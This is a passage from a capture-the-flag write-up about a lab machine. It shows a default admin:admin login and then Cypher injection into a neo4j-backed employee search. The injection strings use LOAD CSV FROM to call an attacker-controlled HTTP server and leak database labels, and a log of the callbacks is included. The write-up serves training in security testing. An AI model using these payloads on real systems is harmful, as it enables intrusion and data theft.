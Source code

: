Checking the port `3000` , it was running `gogs` and we did not have any credentials to check here:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_7.png)

Moving on to the port `8001` , it also had a login page:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_8.png)

Trying with the following credentials resulted in the application access:

```python
admin:admin
```

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_9.png)

The application had a task marked as completed that the transfer to `neo4j` database has been completed:

We also had a “Employee” page which allowed us to search for employees:

Giving a single quote in the search box resulted in `500` error:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_10.png)

Given, we already know that the backend database is `neo4j` , just a note that it differs from the SQL queries, `neo4j` uses Cypher Queries and for the Cypher queries one thing to note down is that every query must return some sort of the value. To check and confirm the hypothesis of the injection, there is a procedure named as `LOAD CSV FROM` which can be used to load arbitrary values from a remote server over HTTP connection. Here, we just tried to check if it makes the connection to our remote HTTP server:

```python
' OR 1=1 LOAD CSV FROM 'http://10.10.14.22' AS y RETURN ''//
```

Injecting the above query and checking the HTTP Server, we see that there were some requests made to it from `10.10.11.210` 

```python
❯ sudo python3 -m http.server 80 --bind 10.10.14.22
Serving HTTP on 10.10.14.22 port 80 (http://10.10.14.22:80/) ...
10.10.11.210 - - [23/Apr/2023 11:10:29] "GET / HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 11:10:29] "GET / HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 11:10:30] "GET / HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 11:10:30] "GET / HTTP/1.1" 200 -
```

Next thing to try here is to extract `labels`  which is equivalent for SQL’s tables:

```python
' MATCH (n) WITH 1337 AS x CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.22/'+d AS y RETURN y //
```

And on our HTTP server, we see that a request to `user` endpoint was made which means there is a label called `user` 
